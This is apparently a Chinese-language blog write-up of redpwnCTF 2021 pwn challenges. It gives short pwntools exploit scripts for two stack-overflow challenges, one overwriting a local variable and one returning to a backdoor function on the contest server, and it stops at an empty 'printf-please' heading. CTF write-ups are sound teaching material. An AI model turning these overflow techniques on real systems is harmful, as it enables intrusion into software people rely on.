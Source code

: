 ```yaml
---
title: redpwn2021_pwn
date: 2021-07-26 16:47:55
permalink: /pages/993e16/
categories:
  - ctf_wp
  - redpwn
tags:
  - 
---
```

# redpwn2021_pwn(1)

[[toc]]

第一部分, 十解以上的题目.

剩下五道题目, 难度极大, 选择摆烂

## beginner-generic-pwn-number-0

比较简单的栈溢出, 覆盖栈内的局部变量, 

![image-20210726165054870](https://i.loli.net/2021/07/26/VRAFPbyzTODxs5Z.png)

```python
def exp():
    sla("message to cheer me up? :(", flat('a' *0x28, -1))
```



## ret2ret2the-unknowngeneric-flag-reader

栈溢出, 基本没有保护, 跳到后门函数即可打印flag,

```python
from pwn import *  

context.arch='amd64'

# cn = process("./bin")
cn = remote("mc.ax", 31077)

payload = flat('a' * 0x20, 1, 0x00000000004011F6)
cn.sendline(payload)

cn.interactive()
```



##  printf-please

